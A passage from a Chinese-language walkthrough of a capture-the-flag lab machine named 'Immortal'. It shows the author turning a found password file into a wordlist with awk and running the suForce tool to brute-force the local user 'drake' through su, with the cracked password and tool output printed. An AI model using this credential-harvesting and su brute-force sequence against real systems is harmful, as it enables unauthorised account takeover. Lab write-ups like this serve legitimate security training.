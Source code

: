 ```bash
shelldred : shell123dred (f4ns0nly)
system : kevcjnsgii
bank : myfavouritebank
nintendo : 123456

```

难评，把数据处理一下

```bash
www-data@Immortal:/home/drake/...$ cat pass.txt |awk -F ' ' '{print $1 "\n" $3}'   
netflix
drake123
amazon
123drake
shelldred
shell123dred
system
kevcjnsgii
bank
myfavouritebank
nintendo
123456
www-data@Immortal:/tmp$ echo 'f4ns0nly' >> pass 
www-data@Immortal:/tmp$ cat pass 
netflix
drake123
amazon
123drake
shelldred
shell123dred
system
kevcjnsgii
bank
myfavouritebank
nintendo
123456

f4ns0nly
```

那个空格无伤大雅，拖个 **suForce** 爆破密码

```bash
www-data@Immortal:/tmp$ ./suForce -u drake -w pass 
            _____                  
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
🎯 Username | drake
📖 Wordlist | pass
🔎 Status   | 8/14/57%/kevcjnsgii
💥 Password | kevcjnsgii
───────────────────────────────────


www-data@Immortal:/tmp$ su - drake   
```
